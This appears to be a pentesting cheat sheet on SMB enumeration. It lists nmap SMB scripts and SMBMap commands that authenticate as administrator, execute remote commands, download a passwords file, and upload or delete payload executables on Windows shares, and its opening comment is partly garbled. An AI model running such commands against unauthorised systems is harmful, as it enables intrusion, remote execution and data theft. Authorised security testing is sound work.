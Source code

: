 ```bash 
# Attempts to retrieve useful information about files shared on SMB volumes $ (or smb-ls.shares) the share (or a colon-separated list of shares) to connect to (default: use shares found by smb-enum-shares)

nmap --script smb-enum-services.nse --script-args smbusername=<username>,smbpass=<password> -p445 <host>
# Retrieves the list of services running on a remote Windows system. Each service attribute contains service name, display name and service status of each service.

nmap --script smb-enum-users.nse -p445 <host>
# Attempts to enumerate the users on a remote Windows system, with as much information as possible

nmap --script smb-server-stats.nse -p445 <host>
# Attempts to grab the server's statistics over SMB and MSRPC, which uses TCP ports 445 or 139.

nmap --script smb-enum-domains.nse -p445 <host>
# Attempts to enumerate domains on a system, along with their policies


nmap --script smb-enum-groups.nse -p445 <host>
# Obtains a list of groups from the remote Windows system, as well as a list of the group's users. This works similarly to `enum.exe` with the `/G` switch.


--script-args smbusername=administrator,smbpass=smbserver_771
```

## [SMBMap](https://github.com/ShawnDEvans/smbmap)
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.

-   Allows users to enumerate samba share
-   Allows file upload/download/delete
-   Permission enumeration (writable share, meet Metasploit)
-   etc.

``` bash

smbmap -H 192.168.12.123 -u administrator -p asdf1234
#basic Autantication 

smbmap -H 172.16.0.24 -u Administrator -p 'changeMe' -r 'C$\Users'
# Non recursive path listing (ls):

smbmap -H 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L
#This feature was added to complement the file content searching feature

smbmap -H 192.168.12.123 -u administrator -d admin -p asdf1234
#spacify the domain

smbmap -H 192.168.12.123 -u administrator -d admin -p asdf1234  -x 'ipconfig /all' 
#Execute a command 

smbmap -H 192.168.12.123 -u administrator -p asdf1234 --download 'C$\temp\passwords.txt'
#Download a file from the remote system

smbmap -H 192.168.12.123 -u administrator -p asdf1234   --upload '/tmp/payload.exe' 'C$\temp\payload.exe'
#Upload a file to the remote system 

smbmap -H 192.168.12.123 -u administrator -p asdf1234 --delete 'C$\temp\msf.exe'
```